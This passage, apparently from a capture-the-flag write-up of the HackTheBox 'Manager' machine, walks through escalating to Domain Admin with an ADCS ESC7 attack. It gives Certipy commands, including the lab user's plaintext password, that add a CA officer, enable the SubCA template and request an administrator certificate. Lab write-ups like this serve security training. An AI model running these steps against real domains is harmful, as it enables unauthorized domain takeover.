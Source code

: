 ![](/img/Pasted%20image%2020250213221643.png)



## Privilege Escalation
For privilege escalation, I initially attempted to run the WinPEAS binary; however, it did not yield any substantial findings. Next, I examined the machine’s name to determine whether it provided any hints regarding potential escalation vectors. I then fired up **BloodHound**, fed it the creds I snagged, and exported the results to map out possible escalation routes. After some deep OSINT and testing various approaches, I figured out the box was vulnerable to an **ADCS attack vector**, opening up a solid path to escalate.

###### Using Certipy to find vulnerabilities
```
certipy-ad find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable
```
![](/img/Pasted%20image%2020250105220502.png)

Based on the results from **Certipy**, we can see the  user **Raven** holds dangerous permissions, specifically **ManageCA** rights over the Certification Authority. This opens the door for an **ESC7** attack, allowing us to escalate privileges and pivot to **Domain Admin** while operating under Raven’s account

> ESC7 is when a user has the Manage CA or Manage Certificates access right on a CA. There are no public techniques that can abuse the Manage Certificates access right for domain privilege escalation, but it can be used it to issue or deny pending certificate requests

##### Exploitation Steps
To exploit this, we'll need to first add Raven as an "officer", so that we can manage certificates and
issue them manually.
###### Step 1: Add Raven as an Officer, to manage & issue certs:
```bash
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -add-officer raven -debug
```
![](/img/Pasted%20image%2020250216002936.png)

###### Step 2 Enable `SubCA` template:
The SubCA certificate template is vulnerable to ESC1, but only administrators can enroll in the template. Thus, a user can request to enroll in the SubCA - which will be denied - but then issued by the manager afterwards.
```
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -enable-template subca
```
![](/img/Pasted%20image%2020250106200058.png)

Verify the template has been enabled

![](/img/Pasted%20image%2020250106195957.png)
###### Step 3 Request a certificate on behalf of the administrator:
```
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb
```
![](/img/Pasted%20image%2020250216003600.png)
